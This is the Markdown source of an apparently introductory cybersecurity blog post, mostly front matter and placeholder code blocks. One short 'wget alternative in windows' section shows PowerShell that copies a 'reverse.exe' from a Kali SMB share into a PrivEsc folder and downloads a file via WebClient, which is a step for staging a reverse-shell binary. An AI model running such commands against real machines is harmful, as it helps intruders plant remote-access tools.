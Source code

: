 ```yaml
---
title: Writing a New Post
author:
  name: Wraithdemon
  link: https://github.com/prabhatjoshi321
date: 2021-12-08 14:10:00 +0800
categories: [Blogging, Tutorial]
tags: [writing]    # TAG names should always be lowercase
---
```



# This is a first blog post
```

hello world


```


####  wget alternative in windows
```powershell
	copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe

	$client = new-object System.Net.WebClient
	$client.DownloadFile("http://www.xyz.net/file.txt","C:\tmp\file.txt")

```
## Shell

```console
foo@bar:~$ whoami
foo
```

## Zsh
```console
joshi@joshi:/mnt/hgfs/c/users/prabh/documents/github$ git clone https://github.com/prabhatjoshi321/cyberblog.ml.git
Cloning into 'cyberblog.ml'...
remote: Enumerating objects: 6112, done.
remote: Total 6112 (delta 0), reused 0 (delta 0), pack-reused 6112
Receiving objects: 100% (6112/6112), 2.71 MiB | 415.00 KiB/s, done.
Resolving deltas: 100% (3565/3565), done.
```
